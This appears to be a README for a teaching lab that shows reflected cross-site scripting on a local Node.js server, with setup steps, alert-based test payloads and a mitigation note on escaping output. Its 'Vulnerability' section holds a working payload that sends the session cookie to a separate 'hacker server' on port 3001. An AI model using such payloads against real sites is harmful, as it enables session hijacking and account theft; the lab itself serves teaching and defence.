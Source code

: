 # Cross-site Scripting (XSS)
Cross-site scripting vulnerabilities in action.

## Requirements
* [Node.js](https://nodejs.org/en/):
  * Mac/Linux - Use [nvm](https://github.com/creationix/nvm) to install node

## Getting Started
Mac users, open Terminal.
In your terminal program, use git to download the project:
```bash
git clone https://github.com/fnev081299/CT6043_XSS.git
```

Go to xss directory:
```bash
cd xss
```

Install dependencies using npm:
```bash
npm install
```

Run the local web server using Node.js:
```bash
node server.js
```
If successful, message: `Server at localhost:3000` is shown. The server is is now listening for requests at [localhost:3000](http://localhost:3000/).

## Test the server site:
Enter something in the textbox then press enter. Notice how the search query you entered is shown in the page.


## XSS:
[OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) for more information.


## Testing:
Open the developer tools in browser and open the "Console" sub-tab.

Copy/paste and run:
```js
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'XSS!\')">');
```

Paste the output into the address bar:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('XSS!')%22%3E
```
Or click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('XSS')%22%3E).

You should see an alert :: "Potential XSS!".


## Vulnerability
Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.

The cookie named "connect.sid" is a session cookie set by the local web server. Repeat the steps from the "Testing" section, but with:
```html
<img src="does-not-exist" onerror="alert(document.cookie)">
```
Encode and use, or [use this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

The session cookie is printed in an alert pop-up.

Start the "Hacker Server":
```bash
node hacker_server.js
```

Steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the hacker server for the view of the cookie. 

## Mitigation
At the root, the XSS vulnerability is caused by inserting unsafe ("unescaped") HTML. In the `public/index.html` file, change the "Results" (the `q` parameter) strictly as text content. Uncomment the safe "Results" and comment out the other to see the secure versrion.
